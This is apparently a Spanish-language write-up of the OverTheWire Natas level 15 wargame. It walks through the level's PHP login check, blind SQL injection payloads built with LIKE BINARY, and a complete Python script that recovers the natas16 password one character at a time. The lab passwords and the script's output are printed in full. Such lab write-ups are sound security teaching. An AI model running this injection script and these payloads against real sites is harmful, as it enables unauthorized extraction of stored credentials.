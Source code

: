 #Natas Level 14 → Level 15

Username: natas15

URL:      http://natas15.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas15.natas.labs.overthewire.org** 
- **Usuario    : natas15**
- **Contraseña : AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J**

La contraseña la hemos sacado del nivel anterior.

Accedemos a la página y nos muestra un campo en el que tenemos que meter un **usuario** y el programa comprueba si existe en la base de datos o no.

Probamos a meter el usuario **natas15** y nos indica que **NO** existe.

```html
This user doesn't exist.
```
Probamos a meter el usuario **natas16** y nos indica que **SI** existe.

```html
This user exists.
```

Tenemos que conseguir que nos saque por pantalla la contraseña del usuario **natas16** haciendo **SQL Injection** sobre el parámetro **username**

Para ello vamos a ver el código fuente y ver como podemos solucionar el reto.

Vemos que se crea una tabla llamada **users** con los parámetros **username** y **password** 

```sql
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
```

Con el código anterior ya y sabiendo que se conecta a la **BBDD** llamada **natas15**, podemos empezar a trabajar en nuestra **$query**.
```sql
 mysql_select_db('natas15', $link); 
```

```php
if(array_key_exists("username", $_REQUEST)) 
{ 
    $link = mysql_connect('localhost', 'natas15', '<censored>'); 
    mysql_select_db('natas15', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    
    if(array_key_exists("debug", $_GET)) 
    { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) 
    { 
        if(mysql_num_rows($res) > 0) 
        { 
            echo "This user exists.<br>"; 
        } 
        else 
        { 
            echo "This user doesn't exist.<br>"; 
        } 
    } 
    else 
    { 
        echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
```

Query ejecutada:

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
```

Si metemos el parámetro **" OR "1"="1** nos indica que **This user exists.** la que la consulta es un **True** pero no nos sirve de mucho.

¿Como lo hacemos? 

Esta prueba me suena que puede ser un reto de **BLIND SQL Injection**. 

**Blind SQL injection**, es una técnica de ataque que utiliza la inyección SQL. Su evidencia cuando en una página web, por una falla de seguridad, no se muestran mensajes de error al no producirse resultados correctos ante una consulta a la base de datos, mostrándose siempre el mismo contenido (es decir, solo hay respuesta si el resultado es correcto).

En nuestro caso nos dice si el usuario existe o no existe con mensajes **This User Exists** o **This user doesn't exist**

Como en esta ocasión tenemos un solo campo, tenemos que agregar más código al parámetro **Username** para que nos permita jugar con el parámetro **password**

Para ello tendremos que crear algo así:

```php
natas16" AND password ...
````

La técnica de Blind SQL Injection nos va a permitir recibir mensajes de usuario **correcto** o **incorrecto** dependiento de los argumentos que les pasemos, por lo tanto tenemos que crear una consulta para el parámetro **password** que nos indique si la contraseña esta bien o mal.

Mejor que esté bien o mal, vamos a optar por indicarle si la contraseña **contiene** o **empieza** con algún caracter. 

Para eso utilizaremos la opción de sql **LIKE BINARY** que nos indica si una cadena de caracteres específica coincide con un patrón especificado. En este casi si la contraseña empieza con el valor **a**

```php
natas16" AND password LIKE BINARY "a%";# "
```

- Si la respuesta es **This user exists** significa que la contraseña del usuario **natas16** empieza por **a.........**
- Si la respuesta es **This user doesn't exist** significa que la contraseña no empieza por esa letra.

Hacer esto a mano sería una autentica tortura, así que haciendo uso de un script en **python** hacemos un programa que automatice todo este proceso. 

Sabemos que tenemos que conseguir una contraseña de **32 caracteres** de longitud

Lo llamaremos **blindNatas15Injector.py**

```python
import httplib2
import urllib

 
h = httplib2.Http()
h.add_credentials('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')
 
passTemporal        = "";
letras              = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
posicion            = 0

usuarioExiste       = "This user exist"
usuarioNoExiste     = "This user doesn't exist"

contUsuarioExiste   = 0
contUsuarioNoExiste = 0

while posicion < len(letras):
        query = urllib.urlencode(dict(username="natas16\" AND password LIKE BINARY \"" + passTemporal + letras[posicion] + "%\" ;# "))
        resp, contenido = h.request("http://natas15.natas.labs.overthewire.org/index.php?" + query, method="POST")
        if (usuarioExiste in str(contenido)):
                passTemporal += letras[posicion];
                print("Nueva password encontrada: " + passTemporal)
                posicion = 0
                contUsuarioExiste +=1
                if (len(passTemporal)==32):
                        break;
                continue
        if (usuarioNoExiste in str(contenido)):
                contUsuarioNoExiste +=1
        posicion += 1

print "-"*70
print "Pruebas Erroneas       = {0}".format(contUsuarioNoExiste)
print "Pruebas Satisfactorias = {0}".format(contUsuarioExiste)
print "-"*70
print "Password Natas16 = {0}".format(passTemporal)
print "-"*70
```

Ejecutamos el script y vamos viendo por la consola como van apareciendo los caracteres que han coincidido con las letras que tiene la contraseña. Tenemos que esperar hasta que la longitud sea de **32**

```bash
ikerburguera@:~/Desktop$ python blindNatas15Injector.py 
Nueva password encontrada: W
Nueva password encontrada: Wa
Nueva password encontrada: WaI
Nueva password encontrada: WaIH
Nueva password encontrada: WaIHE
Nueva password encontrada: WaIHEa
Nueva password encontrada: WaIHEac
Nueva password encontrada: WaIHEacj
Nueva password encontrada: WaIHEacj6
Nueva password encontrada: WaIHEacj63
Nueva password encontrada: WaIHEacj63w
Nueva password encontrada: WaIHEacj63wn
Nueva password encontrada: WaIHEacj63wnN
Nueva password encontrada: WaIHEacj63wnNI
Nueva password encontrada: WaIHEacj63wnNIB
Nueva password encontrada: WaIHEacj63wnNIBR
Nueva password encontrada: WaIHEacj63wnNIBRO
Nueva password encontrada: WaIHEacj63wnNIBROH
Nueva password encontrada: WaIHEacj63wnNIBROHe
Nueva password encontrada: WaIHEacj63wnNIBROHeq
Nueva password encontrada: WaIHEacj63wnNIBROHeqi
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t0
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t0m
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t0m5
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t0m5n
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t0m5nh
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t0m5nhm
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
----------------------------------------------------------------------
Pruebas Erroneas       = 858
Pruebas Satisfactorias = 32
----------------------------------------------------------------------
Password Natas16 = WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
----------------------------------------------------------------------
```

**FLAG** = {WaIHEacj63wnNIBROHeqi3p9t0m5nhmh}










